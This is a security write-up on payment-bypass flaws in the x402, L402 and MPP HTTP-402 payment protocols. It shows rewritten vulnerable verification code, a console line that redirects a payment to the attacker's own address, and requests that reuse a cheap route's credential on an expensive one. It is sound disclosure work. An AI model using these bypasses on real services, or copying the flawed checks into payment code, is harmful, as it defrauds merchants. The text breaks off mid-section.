








# Breaking HTTP (pay)walls: 402 protocols

## Introduction

We audited several implementations of HTTP-native payment protocols across **TypeScript**, **Golang** and **Java**, and this article is the technical write-up of the critical issues we found and reported. All of the flaws discussed allowed _bypassing the payment mechanism_ of the analysed protocols.

If you would rather skip the Introduction / Protocols overview and read about the vulnerabilities right away, feel free to choose the one you would like to go to:

- [**Paying to whoever** (yourself, say)](#paying-to-whoever-yourself-say)
- [**Paying for whatever** (& getting the best)](#paying-for-whatever-getting-the-best)
- [**Not paying at all!**](#not-paying-at-all)

> [!NOTE]
> 3 problems are tracked publicly – we were requested (by Coinbase team on HackerOne) to publish them through GitHub Issues:
> 
> - [`x402-foundation/x402#3849`](https://github.com/x402-foundation/x402/issues/3849) – paywall bypass in the Java implementation;
> - [`x402-foundation/x402#3850`](https://github.com/x402-foundation/x402/issues/3850) – paywall bypass in parameterised routes (v1.2.0);
> - [`x402-foundation/x402#3852`](https://github.com/x402-foundation/x402/issues/3852) – reflected XSS in the paywall page.

#### Disclaimer

> [!WARNING]
> This article was created for informational purposes only and is intended for security analysis specialists who analyze the security of the customer's resources strictly on legal grounds and on the basis of an agreement concluded with the customer company. It should not be used to make any statements or claims, to offer warranties regarding the utility, safety, or suitability of the code, the product, the business model, or to express an opinion about the mentioned companies or their products.
>
> The author is not responsible for any harm caused by the use of the information provided.
> The spread of malware and disruption of systems are prosecuted by law.
> 
> **Sensitive information is deliberately redacted (hidden or modified).** Most source code in this article is rewritten and included solely for illustration purposes. The resulting code: identifiers, comments and overall structure – differs from the originals, but the control flow, the conditions and the defects are as close to the original as possible.
> 
> All of the issues described have already been patched.

### About the "Breaking walls" series

[Built on security audits / bug bounty findings made for independent projects that aim to marry Web2 concepts to Web3], this article discusses unwanted outcomes of such a union in case of HTTP-based solutions.

It is a natural way of things for Web3 projects to expand their scope by developing solutions that integrate Web2 & AI into them: the world has seen auth protocols, paywalls, and lots of other types of products combining them all together.

However, this moves the entire trust boundary into a place with years of accumulated ambiguity: **HTTP request parsing**. Web2 comes with technical specifications that must be followed very carefully – if you do not have a proper grip on the RFCs and peculiar features of certain services, as well as – yes – classic Web2 security guidelines, it is really easy to mess everything up, and with Web3 every slip is pretty pricey!

> This **series of articles** will demonstrate problems that lead to:
> - Authentication bypass in authentication-focused projects
> - Payment bypass in paywalls
> - Unauthorised privileged access
> - MitM attacks and signature hijacking
> - ...

We will see how attackers can bypass authentication, hijack signatures, get premium content at a discount _(or even for free!)_ = completely negate the whole purpose of these projects, and overall do vile things by means of these flaws, introduced by not paying enough attention to the old classic Web2 security.

_(Oh, and AI is involved too)_

> [!NOTE]
> Here is a little secret message you should be able to unpack after you read the article:
> `[402, 20, 3009, 2068, 3986, 7231, 7235, 9110, 9112], 1337...`

## The protocols

### HTTP payment flows

The `402` HTTP status code, "`Payment Required`", sat unused for roughly 30-ish years – [**RFC-9110**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc9110.html), previously [**RFC-7231**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc7231.html) and originally [**RFC-2068**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc2068.html) – defines it as reserved for future use.

Now, it is the basis of several production protocols that let applications charge for requests and let a client – _an AI agent, even_ – pay with their crypto wallets without extra application-specific prerequisites. Every protocol in this article supplies its own semantics on top of the `402` idea defined by [**RFC-9110**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc9110.html), and does so by reusing the challenge-response shape of [**RFC-7235**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc7235.html):
- the server answers with a status code + a challenge `WWW-Authenticate: <scheme> <params>`;
- the client repeats the request with `Authorization: <scheme> <credentials>`

### x402

**x402** revives `402 Payment Required` and turns it into a complete request / response cycle over plain HTTP for pay-per-request access to resources.

There are 3 (and a half) roles:
| Who? | What? |
| :--  | :-- |
| **Resource Server** | an application; offers access for money |
| **Client** | a user / an AI agent / a script; holds a wallet, wants access |
| **Facilitator** | a service; performs verification & on-chain settlements so the **Resource Server** does not have to interact with blockchains |
| **Middleware** (the half) | a layer in charge of serving `402` HTTP codes / route selection |

And the flow goes like this:

1. The **Client** wants to access a certain resource: they send an HTTP request to the **Resource Server**;
```http title="HTTP request"
GET /premium/content HTTP/1.1
Host: app.example
Accept: application/json
```
2. If access to the requested resource costs money and the **Client** did not provide proof of payment, the **Resource Server** (through the **Middleware**) returns the `402` HTTP code + JSON body with details, e.g.:
```http title="HTTP response"
HTTP/1.1 402 Payment Required
Content-Type: application/json

{
    "accepts": [{
        "scheme":"exact",
        "network":"base-sepolia",
        "maxAmountRequired":"1337",
        "resource": "/premium/content",
        "description": "Access to premium content",
        "payTo":"0xb34EF5XXXXXXXXXXXXXXXXXXXXX...",
		"asset": "0x036CXXXXXXXXX...",
		"extra": { "name": "USDC" }
    }]
}
```
3. In order to pay, the **Client** builds a `PaymentPayload`: has their wallet sign an [**EIP-3009**](https://eips.ethereum.org/EIPS/eip-3009) `TransferWithAuthorization` for `value` >= `maxAmountRequired` to `payTo`, base64-encodes the signed payload and requests the resource again, passing the result in a header (`X-PAYMENT`, `Payment-Signature`, ...) as proof of payment;
```http title="HTTP request"
GET /premium/content HTTP/1.1
Host: app.example
X-PAYMENT: eyJXXXXXXXXXXXXXX...
```
4. The **Resource Server**'s middleware forwards the provided proof to the **Facilitator**'s `/verify` route;
```json title="POST /verify"
{
	"paymentPayload": {
		"scheme": "exact",
		"network": "base-sepolia",
		"payload": {
			"signature": "0x7b33XXXXXXXXX...",
			"authorization": {
				"from": "0x16dfXXXXXXXXX...",
				"to":   "0xb34EXXXXXXXXX...",
				"value": "1337",
				"validAfter":  "1746652286",
				"validBefore": "1746653346",
				"nonce": "0x687dXXXXXXXXX..."
			}
		}
	},
	"paymentRequirements": {
		"scheme": "exact",
		"network": "base-sepolia",
		"maxAmountRequired": "1337",
		"resource": "/premium/content",
		"payTo": "0xb34EXXXXXXXXX...",
		"asset": "0x036CXXXXXXXXX...",
		"extra": { "name": "USDC" }
	}
}
```
> [!IMPORTANT]
> - `paymentRequirements` is produced by the **Server**;
> - `paymentPayload` is produced by the **Client**;

5. If the **Facilitator** says the payload is valid – the requested content is served;
6. \[\*\] The **Middleware** also calls `/settle` afterwards to broadcast the transfer.
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json
X-PAYMENT-RESPONSE: XXXXXXX...

{ "served":"PAID CONTENT" }
```

The point to hold on to: the **Resource Server** verifies nothing itself and does not know if the payment actually happened – it is only a route matcher and a relay.

- Authorization / Verification is the **Facilitator**'s job
- Route selection is the **Middleware**'s job

And each of them trusts the other to have done theirs.

### L402

**L402** ultimately does the same thing: revives `402 Payment Required` and turns it into an HTTP cycle for pay-per-request access, but in a slightly different way.

**L402** utilises a bearer-token scheme carried in standard [**RFC-7235**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc7235.html) authentication headers.

1. The **Client** wants to access a certain resource: they send an HTTP request to the **Resource Server**;
```http title="HTTP request"
GET /premium/content HTTP/1.1
Host: app.example
Accept: application/json
```
2. If access to the requested resource costs money and the **Client** did not provide proof of payment, the **Resource Server** (through the **Middleware**) returns the `402` HTTP code + a challenge carrying a **macaroon** (a bearer credential) & an **invoice**, e.g.:
```http title="HTTP response"
HTTP/1.1 402 Payment Required
WWW-Authenticate: L402 macaroon="AGIAXXXXXX...", invoice="lnbcxxxxxxxx..."
```
3. The **Client** pays the invoice, obtains the **preimage** (the 32-byte secret that settling an HTLC reveals), and requests the resource again, passing it + the macaroon in a header (`Authorization: L402 <token>:<preimage>`) as proof of payment:
```http title="HTTP request"
GET /premium/content HTTP/1.1
Host: app.example
Authorization: L402 AGIAXXXXXX...==:6c4bxxxxxxxx...
```
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PAID CONTENT" }
```

Verification is stateless: the macaroon commits to a payment hash, the proxy checks `sha256(preimage) == payment_hash` and the macaroon's HMAC, and forwards the request upstream. This way, there is no need for a payment database lookup – issuance and validation can be split across machines.

### MPP

**MPP** – "Machine Payments Protocol" – is a newer layer, a generalisation: it uses the "Payment HTTP Authentication Scheme", submitted to the IETF as `draft-httpauth-payment`, so it has the same HTTP shape, and supports different payment methods and intents. Like x402, it is marketed for agentic commerce.

1. The challenge is a `Payment` auth-scheme with a fixed set of parameters:
```http title="HTTP response"
HTTP/1.1 402 Payment Required
WWW-Authenticate: Payment id="abc123", realm="app.example", method="method", intent="charge", request="eyJXXXXXXXXXX...", expires="2027-01-01T12:00:00Z"
```

> [!IMPORTANT]
> - The `request` is the Base64URL-encoded charge request (with the amount, asset, recipient, ...);
> - The `id` is an HMAC-SHA256 over the challenge parameters, keyed with a secret the proxy holds – so the **Client** cannot really forge it, and can only echo what it was given.
> 
> We will come back to this.

2. The **Client** echoes the challenge back inside a Base64URL-encoded credential of `{challenge, source, payload}`, where `payload` is the payment-method-specific proof (e.g. the preimage):
```http title="HTTP request"
GET /premium/content HTTP/1.1
Host: app.example
Authorization: Payment <base64url({"challenge":{...},"payload":{"preimage":"..."}})>
```

In practice, the deployment model here is a reverse proxy that sits in front of one or more backend services, matches the request host / path against a list, and decides per service whether the paywall is on or off for certain paths.

It is the proxy who recomputes the HMAC over the fields the **Client** provided and decides whether the challenge is genuine and unmodified.

Again, the backend does not know whether the payment happened.

## Paying to whoever (yourself, say)

### Issue

In x402, the **Resource Server** performed no on-chain checks by design: the architecture placed all payment validation in the **Facilitator**.

The Client-Side payload and the Server-Side requirements meet in `verify()`, and here is what it checked back then:
```ts title="[⚠️ REWRITTEN] verify()"
async function verify(client, submitted, required) {
  const a = submitted.payload.authorization;
  if (submitted.scheme !== "exact" || required.scheme !== "exact") {
    return false;
  }

  let domain;
  try {
    domain = await loadDomain(client, submitted.network, required);
  } catch {
    return false;
  }

  const authentic = await verifyTypedData({
    address: a.from,
    domain,
    types: transferAuthorizationTypes,
    primaryType: "TransferWithAuthorization",
    message: a,
    signature: submitted.payload.signature,
  });
  if (!authentic) return false;

  const now = Math.floor(Date.now() / 1000);
  if (BigInt(a.validBefore) < BigInt(now + 6)) return false;
  if (BigInt(a.validAfter) > BigInt(now)) return false;

  const minimum = BigInt(required.maxAmountRequired);
  const funds = await tokenBalance(client, required.asset, a.from);
  if (funds < minimum || BigInt(a.value) < minimum) return false;

  // no comparison between a.to and required.payTo;
  return true;
}
```

> [!IMPORTANT]
> Reminder:
> - `paymentRequirements` is produced by the **Server**;
> - `paymentPayload` is produced by the **Client**;

Every field of `paymentRequirements` that constrains the payment is enforced: scheme, network, asset, amount, but not the recipient – nothing compares `paymentRequirements.payTo` and `paymentPayload.payload.authorization.to`; `required.payTo` is read into the 402 challenge and then never used again.

And `settle()` did not compensate for it: it re-ran `verify()` and then submitted the EIP-3009 transfer with `auth.to` taken from the **Client**.

```ts title="[⚠️ REWRITTEN] settle()"
async function settle(wallet, submitted, required) {
  if (!(await verify(wallet, submitted, required))) return false;

  const a = submitted.payload.authorization;
  const hash = await wallet.writeContract({
    address: required.asset,
    abi: tokenAbi,
    functionName: "transferWithAuthorization",
    args: [
      a.from, a.to, BigInt(a.value),
      BigInt(a.validAfter), BigInt(a.validBefore),
      a.nonce, submitted.payload.signature,
    ],
    chain: wallet.chain,
  });

  const receipt = await wallet.waitForTransactionReceipt({ hash });
  return receipt.status === "success";
}
```

This way, a transfer to whoever (even to yourself!) is a valid ERC-20 transfer, as long as other parameters (the amount, asset, ...) match, so the **Facilitator** reports the payment settled.

### Exploitation

The `paymentRequirements` are handed to the Client-Side as part of `window.x402`, so the recipient can be rewritten right in the browser Console before "paying":

```js title="DevTools Console"
window.x402.paymentRequirements.payTo = "0x16dfXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
```



The wallet then signs an EIP-3009 authorisation paying the correct amount of the correct asset on the correct network to the Attacker's own address. `verify()` returns `isValid: true`, the **Client** is served the paid content, `settle()` broadcasts the transfer, and the **Resource Server**'s balance is unchanged.

<u>**Result**</u>: complete bypass of the payment mechanism for any **Resource Server** through **Facilitator** spoofing. The Attacker is served the paywalled content ultimately for free – they paid for it, but they paid to themselves, so no money was actually spent.

## Paying for whatever (& getting the best)

### Issue

Recall the MPP challenge:

> [!IMPORTANT]
> - The `id` is an HMAC-SHA256 over the challenge parameters, keyed with a secret the proxy holds – so the **Client** cannot really forge it, and can only echo what it was given.

Its `id` is an HMAC over 7 fixed slots – the challenge parameters:

```golang title="[⚠️ REWRITTEN] challengeID()"
// The HMAC input is seven fixed slots joined with "|". Everything the client
// echoes back is covered; anything not in this list is not.
func challengeID(secret []byte, c *Challenge) string {
    fields := []string{
		c.Realm,   // protection space - the proxy's realm, not the route
		c.Method,  // payment method
		c.Intent,  // charge / session / subscription
		c.Request, // amount, currency, invoice, payment hash
		c.Expires,
		c.Digest,
		c.Opaque,
	}

	tag := hmac.New(sha256.New, secret)
	tag.Write([]byte(strings.Join(fields[:], "|")))

	return base64URLEncode(tag.Sum(nil))
}
```

The HMAC was constructed from:
```
Realm | Method | Intent | Request | Expires | Digest | Opaque
```

Even though it makes most of the important parameters unforgeable, not one of these slots indicates what route is requested. The name of the route is available at mint time and is passed as a parameter to the functions which fill the slots / verify the HMAC:

```golang title="[⚠️ REWRITTEN]"
invoice, paymentHash, err := v.invoices.Create(price)
if err != nil {
    return nil, err
}

charge := ChargeRequest{
    Amount:   strconv.FormatInt(price, 10),
    Currency: "sat",
    MethodDetails: ChargeDetails{
        Invoice:     invoice,
        PaymentHash: hex.EncodeToString(paymentHash[:]),
        Network:     v.network,
    },
}
encoded, err := encodeCanonicalRequest(charge)
if err != nil {
    return nil, err
}

c := Challenge{
    Realm:   v.realm,
    Method:  "method",
    Intent:  "charge",
    Request: encoded,
    Expires: formatExpiry(time.Now().Add(v.challengeLifetime)),
}
c.ID = challengeID(v.secret, &c)

// the service name could be recorded, but it is not;
v.recordPendingIfEnabled(paymentHash, serviceName, price)
return challengeHeaders(c), nil
```

```golang title="[⚠️ REWRITTEN] accept()"
func (v *Verifier) accept(headers *http.Header, serviceName string) bool {
    token, err := parseCredential(headers)
    if err != nil {
        return false
    }
    c := token.Challenge
    if c.Method != "method" || c.Intent != "charge" {
        return false
    }
    if !constantTimeEqual(c.ID, challengeID(v.secret, &c)) {
        return false
    }

    expiry, err := parseRequiredExpiry(c.Expires)
    if err != nil || time.Now().After(expiry) {
        return false
    }
    preimage, err := decodePreimage(token.Payload)
    if err != nil {
        return false
    }
    charge, err := decodeCharge(c.Request)
    if err != nil {
        return false
    }
    paymentHash, err := decodePaymentHash(charge.MethodDetails.PaymentHash)
    if err != nil || sha256.Sum256(preimage[:]) != paymentHash {
        return false
    }
    if err := v.checkInvoiceSettled(paymentHash); err != nil {
        return false
    }

    firstUse, err := v.consume(paymentHash, c.ID, expiry)
    if err != nil {
        return false
    }
    if !firstUse && (v.reusable == nil || !v.reusable(serviceName)) {
        return false
    }

	// no comparison with the service;
    return true
}
```

However, the route is never compared to anything. The credential attests that an invoice was paid, but does not really say for what. Therefore, whenever the target \[say, _expensive_\] route can be reached through MPP – it could be tricked into accepting a valid credential meant for a different \[perhaps _cheaper_\] route.

A bonus problem arose when we looked into the route configuration parameters. It turned out that in proxy implementations that accept several different protocols and allow the paywalled routes to declare which protocol they use, the absence of the preferred protocol (`authscheme` – also "scheme" from here on) defaulted to all protocols – meaning any route without a certain scheme set could be reached through MPP and become a target.

> [!NOTE]
> It is worth mentioning that the replay protection still works: the credential is single-use, no matter the requested route.

### Exploitation

Imagine there are 2 priced routes:
- `/premium` – a nice route, but a cheaper one; costs `1 sat` & serves "`PREMIUM CONTENT`"
- `/vip` – the **target**, expensive route; costs `100 sat` & serves "`VIP CONTENT`"

The `/vip` route does not specify the preferred schemes (no `authscheme` or `authscheme: ""`) OR is explicitly configured to accept MPP (`authscheme: "mpp"`):
```yaml title="config.yaml"
...

services:
  # The public route
  - name: "public"
    address: "app.example"
    auth: "off"

  # The "premium" route
  - name: "premium"
    pathregexp: '^/premium.*$'
    address: "app.example"
    auth: "on"
    authscheme: ""
    price: 1

  # The "vip" route
  # 100x the price of "premium"
  - name: "vip"
    pathregexp: '^/vip.*$'
    address: "app.example"
    auth: "on"
    authscheme: ""
    price: 100
```

In this scenario, the Attacker could:
1. Request `/premium` and take the `402` data to pay;
```http title="HTTP request"
GET /premium HTTP/1.1
Host: app.example
```
```http title="HTTP response"
HTTP/1.1 402 Payment Required
WWW-Authenticate: Payment id="abc123", realm="app.example", method="method", intent="charge", request="eyJXXXXXXXXXX...", expires="2027-01-01T12:00:00Z"
```
2. Pay the `1 sat` invoice and obtain the preimage;
3. Assemble the credential (by passing the preimage + echoing the challenge back), but present it to `/vip`:
```http title="HTTP request"
GET /vip HTTP/1.1
Host: app.example
Authorization: Payment <base64url({"challenge":{...},"payload":{"preimage":"..."}})>
```
4. Receive the `VIP CONTENT`, as if they had really paid for it and not for the cheapest route available.
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"VIP CONTENT" }
```



<u>**Result**</u>: spoofing of the payment mechanism against any route accessible through MPP. The Attacker could pay for cheaper content and use the received payment credential to get the more expensive content.

## Not paying at all!

This section describes how we were able to access paywalled content _for free_ in all of the implementations tested.

This is the largest vulnerability class that we identified, with various ways to exploit it; and it is structural, rather than incidental.

Route-based **Middleware** decides:
- `requested route == paywalled route?` → verify payment
- `requested route != paywalled route?` → continue without payment

The **Middleware** decides if the route is paid / free; the **Server** decides which handler to serve; and they carry out these decisions independently. Where the two parse differently, the decision is made about one resource and the response is produced by another.

The Attacker might craft a request the **Middleware** <u>reads as free</u> and the **Server** <u>routes as paid</u>.

### Case-sensitive payment rules, case-insensitive routing

A warmup!

The early versions of the **Middleware** route-matching code utilised regular expressions without the case-insensitive flag `i`, making them case-sensitive:

```ts title="[⚠️ REWRITTEN] Regex pattern"
function compilePaidPath(route) {
  const source = route
    .replace(/\*/g, ".*?")
    .replace(/\[([^\]]+)\]/g, "[^/]+")
    .replace(/\//g, "\\/");
  return new RegExp("^" + source + "$");
}
```

Some JS frameworks (**Express**, for example) match paths in a case-insensitive way. An Attacker could have changed any character's case to make the **Middleware** see `/prEmium` – which does not match the paywalled `/premium` due to the case-sensitivity of the route-matching regular expressions – and get access to `/premium` for free, since **Express** considers it the same thing.

```http title="HTTP request"
